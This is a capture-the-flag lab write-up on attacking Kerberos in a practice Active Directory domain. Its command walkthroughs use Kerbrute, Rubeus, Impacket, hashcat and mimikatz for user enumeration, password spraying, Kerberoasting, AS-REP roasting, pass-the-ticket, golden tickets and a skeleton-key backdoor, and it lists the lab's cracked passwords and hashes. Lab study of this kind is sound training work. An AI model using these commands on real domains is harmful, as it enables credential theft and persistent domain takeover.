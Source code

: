 # Attacking Kerberos - Easy

1. [Introduction](#introduction)
2. [Enumeration with Kerbrute](#enumeration-with-kerbrute)
3. [Harvesting & Brute-Forcing Tickets with Rubeus](#harvesting--brute-forcing-tickets-with-rubeus)
4. [Kerberoasting with Rubeus & Impacket](#kerberoasting-with-rubeus--impacket)
5. [AS-REP Roasting with Rubeus](#as-rep-roasting-with-rubeus)
6. [Pass the Ticket with mimikatz](#pass-the-ticket-with-mimikatz)
7. [Golden/Silver Ticket Attacks with mimikatz](#goldensilver-ticket-attacks-with-mimikatz)
8. [Kerberos Backdoors with mimikatz](#kerberos-backdoors-with-mimikatz)

## Introduction

* Kerberos is the default authentication service for Microsoft Windows domains.

* For Kerbrute Enumeration, we do not require domain access.

```markdown
1. What does TGT stand for? - Ticket Granting Ticket

2. What does SPN stand for? - Service Principal Name

3. What does PAC stand for? - Privilege Attribute Certificate

4. What two services make up the KDC? - AS, TGS
```

## Enumeration with Kerbrute

* Kerbrute is an enumeration tool used to brute-force and enumerate valid AD (Active Directory) users by abusing Kerberos pre-authentication.

```shell
sudo vim /etc/hosts
#add 10.10.242.168 CONTROLLER.local to /etc/hosts

cd ~/Tools/

./kerbrute_linux_amd64 userenum --dc CONTROLLER.local -d CONTROLLER.local ~/Downloads/User.txt
#Kerbrute enumeration
#--dc and -d for location of domain controller
#the usernames are in the form of name@CONTROLLER.local
```

```markdown
1. How many total users do we enumerate? - 10

2. What is the SQL service account name? - sqlservice

3. What is the second "machine" account name? - machine2

4. What is the third "user" account name? - user3
```

## Harvesting & Brute-Forcing Tickets with Rubeus

* Rubeus is a tool used for attacking Kerberos.

```shell
#rubeus is in the target machine
#so we need to ssh to target machine
ssh Administrator@10.10.78.75

cd Downloads

dir

Rubeus.exe harvest /interval:30
#harvest for TGTs every 30 seconds

#we can use Rubeus for brute-forcing and password-spraying as well

echo 10.10.78.75 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
#add domain controller domain name to Windows hosts file

Rubeus.exe brute /password:Password1 /noticket
#sprays password against all found users and gives .kirbi TGT for that user
```

```markdown
1. Which domain admin do we get a ticket for when harvesting tickets? - Administrator

2. Which domain controller do we get a ticket for when harvesting tickets? - CONTROLLER-1
```

## Kerberoasting with Rubeus & Impacket

* Kerberoasting attack allows user to request a service ticket for any service with a registered SPN, then use that ticket to crack the service password.

* Furthermore, we can use a tool like BloodHound to find Kerberoastable accounts.

```shell
#Kerberoasting with Rubeus

Rubeus.exe kerberoast /outfile:hashes.txt /format:hashcat
#dumps Kerberos hash of any Kerberoastable users
#copy both hashes to attacker machine and crack with hashcat
```

```shell
#Kerberoasting with Impacket
#this can be done remotely
cd /usr/share/doc/python3-impacket/examples

sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.78.75 -request
#dump Kerberos hashes
```

```shell
#cracking with hashcat in attacker machine
hashcat -m 13100 -a 0 sqlhash.txt Pass.txt

hashcat -m 13100 -a 0 httphash.txt Pass.txt
```

```markdown
1. What is the HTTPService Password? - Summer2020

2. What is the SQLService Password? - MYPassword123#
```

## AS-REP Roasting with Rubeus

* AS-REP Roasting dumps krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled.

```shell
#in target machine
Rubeus.exe asreproast
#dumps hashes
#copy hashes to attacker machine
```

```shell
#in attacker machine
hashcat -m 18200 --example-hashes

#we need to insert 23$ after $krb5asrep$ in the hashes

hashcat -m 18200 Admin2hash.txt Pass.txt

hashcat -m 18200 User3hash.txt Pass.txt
```

```markdown
1. What hash type does AS-REP Roasting use? - Kerberos 5, etype 23, AS-REP

2. Which user is vulnerable to AS-REP Roasting? - User3

3. What is the user's password? - Password3

4. Which admin is vulnerable to AS-REP Roasting? - Admin2

5. What is the admin's password? - P@$$W0rd2
```

## Pass the Ticket with mimikatz

* ```mimikatz``` is a post-exploitation tool used for dumping user credentials inside of an AD network.

* Here we can use it to dump a TGT from LSASS memory.

```shell
mimikatz.exe

privilege::debug

sekurlsa::tickets /export
#exports all .kirbi tickets into current directory

#pass the ticket using mimikatz

kerberos::ptt <ticketfile>
#cache and impersonate given ticket

#quit mimikatz

klist
#lists cached tickets
```

## Golden/Silver Ticket Attacks with mimikatz

* A silver ticket is limited to the service that is targeted whereas a golden ticket has access to any Kerberos service.

* A KRBTGT is the service account for the KDC (Key Distribution Center).

* A TGT is a ticket to a service account issued by the KDC.

```shell
mimikatz.exe

privilege::debug

lsadump::lsa /inject /name:krbtgt
#dumps krbtgt hash

lsadump::lsa /inject /name:sqlservice
#dumps sqlservice hash

lsadump::lsa /inject /name:administrator
#dumps administrator hash

kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:2777b7fec870e04dda00cd7260f7bee6 /id:1103
#create golden ticket

misc::cmd
#open elevated command prompt with given ticket
#this attack requires other machines on the domain to work
```

```markdown
1. What is the SQLService NTLM Hash? - cd40c9ed96265531b21fc5b1dafcfb0a

2. What is the Administrator NTLM Hash? - 2777b7fec870e04dda00cd7260f7bee6
```

## Kerberos Backdoors with mimikatz

* Kerberos backdoor works by implanting a skeleton key which abuses the AS-REQ timestamp encryption (only works for Kerberos RC4 encryption).

```shell
mimikatz.exe

privilege::debug

misc::skeleton
#now we can access the network using default cred 'mimikatz'
```
